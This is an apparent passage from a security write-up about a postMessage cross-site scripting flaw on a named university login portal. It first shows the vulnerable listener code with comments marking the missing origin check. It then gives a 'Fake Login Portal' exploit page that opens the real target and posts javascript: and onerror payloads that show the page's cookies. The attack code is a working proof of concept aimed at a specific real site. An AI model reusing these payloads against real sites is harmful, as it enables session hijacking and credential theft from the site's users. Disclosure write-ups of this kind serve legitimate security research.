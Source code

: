 ```javascript
            var thumbnailElement = document.createElement('div');
            thumbnailElement.className += " thumbnail";
            
            if(imageElements.length && titleElements.length){
                // Builds UI components from untrusted HTML
                thumbnailElement.appendChild(imageElements[0]);
                
                var textElement = document.createElement('div');
                textElement.className += " caption";
                textElement.appendChild(titleElements[0]);
                
                thumbnailElement.appendChild(textElement);
                element.appendChild(thumbnailElement);
                element.className += 'col-xs-12 col-md-3 col-sm-6';
                
                // UNSAFE ATTRIBUTES
                element.setAttribute('href', "#");
                element.setAttribute('url', event.data[i].href); // Could be javascript: URL
                element.onclick = onclickFunction; // Inherits wildcard postMessage
                
                // Adds the potentially malicious element to DOM
                linksDiv.appendChild(element);
            }
        }
    }
}

// MAIN VULNERABILITY ENTRY POINT
// Listens for messages from ANY origin (no validation)
window.addEventListener("message", receiveMessage, false); // Missing origin parameter
```

## Crafting Payload 

Now in order to demonstrate the risk, I created a script that sends malicious data via `postMessage` when the target page loads:

```javascript
<!DOCTYPE html>
<html>
<head>
    <title>Fake Login Portal</title>
    <script>
        function exploit() {
            // The vulnerable page 
            const targetUrl = "https://campuscontent.nebraska.edu/UNMC/pslogon/csprdnu/index.html?host=myrecords.nebraska.edu&site=NBM#other-logins"; 
            const win = window.open(targetUrl); 
            
            // Wait for the target page to load, then send malicious payload
            setTimeout(() => {
                const maliciousPayload = [
                    {
                        href: "javascript:alert('XSS via href!')",
                        html: "<img src=x onerror='alert(`Stolen Cookies: ${document.cookie}`)'>"
                    },
                ];

                // Send the payload via postMessage (no origin check)
                win.postMessage(maliciousPayload, "*"); 
            }, 2000);
        }
    </script>
```